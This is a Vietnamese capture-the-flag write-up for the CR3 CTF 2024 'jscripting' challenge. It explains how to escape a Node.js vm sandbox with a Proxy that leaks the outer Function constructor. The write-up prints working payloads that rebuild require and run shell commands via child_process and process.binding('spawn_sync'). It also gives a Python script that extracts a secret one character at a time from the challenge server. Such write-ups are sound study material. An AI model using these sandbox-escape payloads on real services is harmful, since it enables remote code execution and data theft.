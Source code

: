 ```yaml
---
title: "CR3 CTF 2024"
description: "CR3 CTF 2024"
summary: "CR3 CTF 2024"
categories: ["Writeup"]
tags: ["Web"]
#externalUrl: ""
date: 2024-05-02
draft: false
authors:
  - Shin24
---
```


Tối hôm trước mình có làm vài bài bên CR3 CTF để warmup cho Hacktheon 2024 vào thứ 7, sau đây là writeup của mình cho 2 bài `jscripting` và `jscripting-revenge`

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/3e7c5b74-9ef1-4a96-9e07-07dd01ac4fca)

# Jscripting
Có thể nói đây là một nodejs sandbox dùng worker thread để chạy external code, dùng một custom `require` function chỉ cho phép gọi đến một danh sách các module giới hạn, mục tiêu sẽ là exfiltrate được flag hay secret gì đó. Module `vm` của nodejs được chọn để chạy external code, tuy nhiên module này không được tạo ra với mục đích bảo mật, đây chỉ là module giúp lập trình viên run code trong một context khác để tránh xung đột và ảnh hưởng đến các object ở context chính. Để escape ra `vm` thì việc thường làm sẽ là tìm cách leak các object từ bên ngoài thông qua các callback hoặc proxy
```js
(() => { throw new Proxy({}, {
  get: function(me, key) {
         const cc = arguments.callee.caller;
         if (cc != null) {
                return (cc.constructor.constructor('return 123'))();
         }
         return me[key];
  }
})
```
Khi kết quả được trả về nó sẽ được cast về chuỗi thông qua `String()` hoặc `JSON.stringify`, đối với `JSON.stringify` nó sẽ invoke hàm `toJSON` của object, nếu invoke nghĩa là trước đó nó sẽ cần get method này, do đó method `get` của proxy sẽ được trigger, từ đó ta có thể tuy cập đến `arguments.callee.caller` và leak được object `JSON.stringify`. Ở đây thì `require` đã bị thay thế như bên trên đề cập, `globalThis.process` cũng bị set về null nhưng `globalThis.module` thì vẫn còn, ta có thể invoke tới `globalThis.module.constructor.createRequire` để tạo lại function `require`.
```
1});(() => { throw new Proxy({}, {
  get: function(me, key) {
         const cc = arguments.callee.caller;
         if (cc != null) {
                return (cc.constructor.constructor(' globalThis.module.constructor.createRequire("/etc/passwd")("child_process").execSync("ls")'))();
         }
         return me[key];
  }
})
```

Khi chạy payload trên ta nhận về một lỗi:

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/97c034ab-ced2-4f3b-b09f-148bffbb333b)

Khi mình trace vào source code của nodejs thì như sau:

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/cc096d1d-0ed5-4aed-a8c3-507e4bccebe2)

Nhìn lại code của đề:

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/152a2cf5-01da-4d94-895c-b000753864fc)

Không rõ là vô tình hay cố ý nhưng việc set `process.env` thành null khiến cho ta không thể invoke `exec` của `child_process` được nữa. Một fact đó là `globalThis.process` thật ra là một module và được nodejs auto expose ra, ta có thể chủ đông import lại module này bằng cách `require("process")`, ở đây ta có thể đơn giản là set `process.env = {}` để không gặp lỗi khi chạy `child_process` nữa, cách của mình thì lại lợi dụng `process.binding` để truy cập đến các low level API của nodejs, cụ thể là `spawn_sync` để RCE
```js
1});(() => { throw new Proxy({}, {
  get: function(me, key) {
         const cc = arguments.callee.caller;
         if (cc != null) {
                return (cc.constructor.constructor(' globalThis.module.constructor.createRequire("/etc/passwd")("process").binding("spawn_sync").spawn({file: "/bin/sh",args: ["/bin/sh","-c", "calc.exe" ], stdio: [ {type:"pipe",readable:true,writable:false}, {type:"pipe",readable:false,writable:true}, {type:"pipe",readable:false,writable:true} ]})'))();
         }
         return me[key];
  }
})
```

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/22a895ca-6fa1-4f10-95f2-a8264ce4c7d0)

Thực chất ta có thể exfiltrate biến `flag`, nhưng flag thật thì nằm ở `secret`, code để oracle attack biến `flag`:
```
import requests
import string

data = "1});(() => { throw new Proxy({}, {\n  get: function(me, key) {\n\t const cc = arguments.callee.caller;\n\t if (cc != null) {\n\t\treturn (cc.constructor.constructor('if (Object.getOwnPropertyDescriptor(globalThis.storage, \"secret\").value[INDEX] == \"CHAR\") {return 200}else{return 404}'))();\n\t }\n\t return me[key];\n  }\n})"
charset = string.printable
flag = "cr3{"
for i in range(4 ,100):
    for c in charset:
        payload = data.replace("INDEX", str(i)).replace("CHAR", c)
        try:
            r = requests.post("https://jscripting.1337.sb/api/execute", json={
                "script": payload
            })
            print(c)
            if "OK" in r.text:
                flag += c
                print("===>" + flag)
                if c == "}":
                    exit()
                break
        except:
            pass
```

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/e8c7725e-a07c-4d66-9360-3f1927392741)

# Jscripting-revenge [UPDATING...]
